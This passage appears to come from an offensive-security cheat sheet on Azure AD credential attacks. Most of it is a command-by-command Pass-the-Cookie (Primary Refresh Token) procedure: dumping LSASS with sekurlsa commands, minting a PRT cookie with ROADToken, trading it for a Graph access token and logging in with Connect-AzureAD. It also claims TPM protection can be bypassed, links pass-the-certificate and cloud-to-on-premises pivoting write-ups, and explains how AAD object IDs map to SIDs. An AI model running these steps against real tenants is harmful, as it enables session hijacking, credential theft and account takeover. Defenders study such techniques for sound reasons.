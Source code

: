 ```
2. Pass-The-Cookie
	- Steal a newly generated PRT cookie from victim's computer
	- Use the cookie to fetch an access token from Azure AD

1. Verify victim machine is AD Azure joined and verify if the session key is protected by TPM chip, dump LSASS process: 
```
dsregcmd.exe /status  
LSASS dump (sekurlsa::minidump lsass.dmp -> sekurlsa::cloudap)
```

2. Generate nonce using ROADTools
```
roadrecon auth --prt-init
```

3. Generate an Azure AD PRT cookie using ROADToken
```
.\ROADToken.exe 
```

4. Paste the PRT cookie to generate a graph API access token
```roadrecon auth --prt-cookie **COOKIE_FROM_ROAD_TOKEN**  
cat .roadtools_auth | python3 -m json.tool
```

5. Use the token to connect on AzureAD (AccountId = OID of user)
```
Connect-AzureAD -TenantId 134jjkhjk-4324h4-1231jff-3453jkjij -AccountId 123 -AadAccessToken string123
```

--> It is also possible to directly insert the x-ms-RefreshTokenCredential within browser cookie. (https://login.microsoftonline.com with HTTPOnly)  
--> TPM can be bypass  
- https://www.youtube.com/watch?v=9WDe7IiSrWE
- https://derkvanderwoude.medium.com/pass-the-prt-attack-and-detection-by-microsoft-defender-for-afd7dbe83c94
- https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/
- https://dirkjanm.io/digging-further-into-the-primary-refresh-token/

#### Pass-the-Certificate
- https://medium.com/@mor2464/azure-ad-pass-the-certificate-d0c5de624597


#### Across Tenant
#### Cloud to on prem
- https://whiteknightlabs.com/2024/02/21/pivoting-from-microsoft-cloud-to-on-premise-machines/

#### AAD GUI to On-Prem SUID
The user's AAD id is translated to SID by concatenating "S-1–12–1-" to the decimal representation of each section of the AAD Id.  

- GUID: [base16(a1)]-[base16(a2)]-[ base16(a3)]-[base16(a4)]
- SID: S-1–12–1-[base10(a1)]-[ base10(a2)]-[ base10(a3)]-[ base10(a4)]
